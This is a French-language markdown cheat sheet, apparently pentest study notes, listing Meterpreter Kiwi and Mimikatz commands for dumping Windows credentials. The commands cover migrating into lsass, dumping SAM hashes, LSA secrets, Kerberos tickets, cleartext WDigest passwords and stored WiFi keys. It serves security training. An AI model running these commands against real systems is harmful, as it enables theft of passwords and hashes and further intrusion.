 
## 💾 5. Dumping avec Meterpreter - Extension Kiwi

### Workflow avec Kiwi (ex-Mimikatz)
| Étape | Commande | Description |
|-------|----------|-------------|
| **1. Obtenir Meterpreter** | Exploitation initiale | Via BadBlue, HFS, etc. |
| **2. Migrer vers lsass** | `migrate -N lsass.exe` | Accès aux credentials en mémoire |
| **3. Charger Kiwi** | `load kiwi` | Charger l'extension |
| **4. Dump complet** | `creds_all` | Tous les credentials disponibles |
| **5. Dump SAM** | `lsa_dump_sam` | Hashes NTLM locaux |
| **6. Dump LSA Secrets** | `lsa_dump_secrets` | Secrets LSA et syskey |

### Commandes Kiwi détaillées
| Commande | Description | Sortie |
|----------|-------------|--------|
| `creds_all` | Dump complet credentials | Passwords, hashes NTLM |
| `creds_kerberos` | Tickets Kerberos | Tickets TGT/TGS |
| `creds_msv` | Credentials MSV | Hashes NTLM/LM |
| `creds_ssp` | SSP credentials | Passwords en clair |
| `creds_tspkg` | TSPKG credentials | Terminal Services |
| `creds_wdigest` | WDigest credentials | Passwords en clair |
| `lsa_dump_sam` | Dump SAM database | Hashes utilisateurs locaux |
| `lsa_dump_secrets` | Dump LSA secrets | Machine account, services |
| `wifi_list` | Profils WiFi | Passwords WiFi stockés |

---

## 🔓 6. Mimikatz Standalone

### Commandes Mimikatz essentielles
| Commande | Description |
|----------|-------------|
| `privilege::debug` | Activer privilèges debug |
| `sekurlsa::logonpasswords` | Dump passwords en mémoire |
| `sekurlsa::wdigest` | Credentials WDigest |
| `sekurlsa::msv` | Hashes NTLM/LM |
| `sekurlsa::kerberos` | Tickets Kerberos |
| `sekurlsa::tspkg` | Terminal Services |
| `lsadump::sam` | Dump SAM (nécessite SYSTEM) |
| `lsadump::secrets` | Dump LSA secrets |
| `lsadump::cache` | Domain cached credentials |
